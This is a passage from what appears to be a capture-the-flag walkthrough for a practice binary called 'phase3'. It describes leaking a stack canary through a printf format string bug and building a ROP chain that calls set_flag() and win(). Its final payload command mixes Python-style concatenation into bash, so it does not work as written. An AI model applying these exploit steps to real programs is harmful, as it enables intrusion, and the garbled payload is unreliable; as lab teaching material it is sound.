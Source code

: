 2. **Identify the Vulnerability**:
   The `printf(buffer);` line in the `greeting()` function represents a format string vulnerability, allowing an attacker to either leak information from or write data to arbitrary memory locations. 

3. **Leak the Canary**:
   The stack canary's purpose is to detect stack buffer overflows before malicious code can execute. We aim to leak this value:

   - Execute the program using multiple `%p` format specifiers to print pointers:

     ```bash
     ./phase3 "$(printf '%p-'%.0s {1..50})"
     ```

   - Identify the canary's position in the output. It will usually stand out as a non-null value amidst irrelevant pointers or null values.

4. **Locate Gadgets for ROP Chain**:
   Our mission is to invoke `set_flag()` and then `win()` in sequence:

   - Use the `ROPgadget` tool to find potential ROP gadgets:

     ```bash
     ROPgadget --binary phase3
     ```

   - Record the addresses of any beneficial gadgets, especially those like `pop rdi; ret`. Also, note the addresses of the `set_flag` and `win` functions.

5. **Craft the ROP Chain**:

   - Start by filling the buffer:

     ```bash
     'A' * 128
     ```

   - Follow up with the previously leaked canary. Format string vulnerabilities allow direct parameter access, which can be used here.
   - Add any necessary padding.
   - Append the ROP gadgets and function addresses in the desired order.

     Here's an illustrative example (ensure you substitute the placeholders with actual addresses and values):

     ```bash
     ./phase3 "$(printf 'A*128' + '%10$p' + '<ROP GADGETS>' + '<set_flag address>' + '<win address>')"
     ```

   Remember to adapt the format string position (`%10$p` in this instance) based on your findings in Step 3.

6. **Launch the Exploit**:

   After crafting the payload, execute it against the `phase3` binary. If everything is correctly set, the program will respond with:

   ```bash
   You win! Nice ROP chain!
   ```
